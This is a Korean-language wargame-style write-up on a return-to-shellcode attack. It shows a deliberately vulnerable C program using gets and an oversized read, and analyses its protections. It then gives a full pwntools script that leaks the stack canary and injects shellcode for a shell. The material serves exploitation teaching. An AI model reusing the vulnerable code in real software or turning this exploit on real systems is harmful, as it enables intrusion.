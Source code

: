## 📍Return to Shellcode

### 소스코드

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```


### 분석
#### 보호기법 탐지

적용된 바이너리 보호기법에 따라 익스플로잇 설계가 달라지므로, 분석 전에 먼저 어떤 보호기법이 작용되었는지 파악하는 것이 좋다.

pwntools와 함께 설치되는 **checksec** 툴을 사용한다.

`$ checksec ./r2s`

![[{8DB0DD9C-D126-49C6-B4CB-65CEA4F4E022}.png]]

카나리가 적용되어 있다.

#### 취약점 탐색

##### buf의 주소
문제에서 `buf`의 주소 및 `rbp`와 `buf` 사이의 주소 차이를 알려주고 있다.
##### 스택 버퍼 오버플로우
스택 버퍼인 `buf`에 총 2번의 입력을 받는다.
`read` 함수에서 주어진 버퍼보다 더 큰 입력을 받을 수 있고, `gets` 함수는 입력 크기를 제한하지 않으므로 안전하지 않은 함수이다.

### 익스플로잇 시나리오
#### 카나리 우회

두 번째 입력(`gets`)으로 반환 주소를 덮을 수 있지만 카나리가 조작되면 `__stack_chk_fail` 함수에 의해 프로그램이 강제 종료된다.
![[{DF26A06C-04F4-455A-A96D-7D790162A035}.png]]

첫 번째 입력을 살펴보자:
```c
  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);
```
- 스택 버퍼에 최대 100바이트의 입력을 받는다.
- 입력을 받고 바로 직후에 `buf`의 내용을 문자열로 출력한다.
- `buf`에 적절한 오버플로우를 발생시켜서 카나리 값을 구하고, 구한 카나리 값을 두 번째 입력에 사용한다.

#### 셸 획득

카나리를 구하고 나면, 두 번째 입력으로 반환 주소를 덮을 수 있다.
이때, 바이너리에 셸을 획득하는 코드가 없으므로 직접 셸을 획득하는 코드를 주입하고 해당 코드로 실행 흐름을 옮겨야 한다.

`buf`의 주소는 프로그램이 출력해주므로 주소를 알고 있는 `buf`에 셸 코드를 주입하고 해당 주소로 실행 흐름을 옮겨 셸을 획득한다.

### 익스플로잇

#### 스택 프레임 정보 수집

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Adress of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp -8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```

#### 카나리 릭

스택 프레임에 대한 정보를 수집했으므로 이를 활용해 카나리를 구해야 한다.
`buf`와 카나리 사이를 임의의 값으로 채우면, 프로그램에서 `buf`를 출력할 때 카나리가 같이 출력된다.

![[{7DB10F8C-6142-4270-ABC3-813E0F263BE3}.png]]

```python
# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)
```

#### 익스플로잇

![[{561167F2-0E66-4661-ACF1-E015D440FDD0}.png]]

카나리를 구했으므로 `buf`에 셸코드를 주입하고 카나리를 구한 값으로 덮은 뒤 RET(반환 주소)를 `buf`로 덮으면 셸코드를 진행시킬 수 있다.

```python
# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```

```python
#!/usr/bin/env python3
# Name: r2s.py
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)

# [2] Leak canary value
payload = b'A'*(buf2cnry + 1) # (+1) because of the first null-byte

p.sendafter(b'Input:', payload)
p.recvuntil(payload)
cnry = u64(b'\x00'+p.recvn(7))
slog('Canary', cnry)

# [3] Exploit
sh = asm(shellcraft.sh())
payload = sh.ljust(buf2cnry, b'A') + p64(cnry) + b'B'*0x8 + p64(buf)
# gets() receives input until '\n' is received
p.sendlineafter(b'Input:', payload)

p.interactive()
```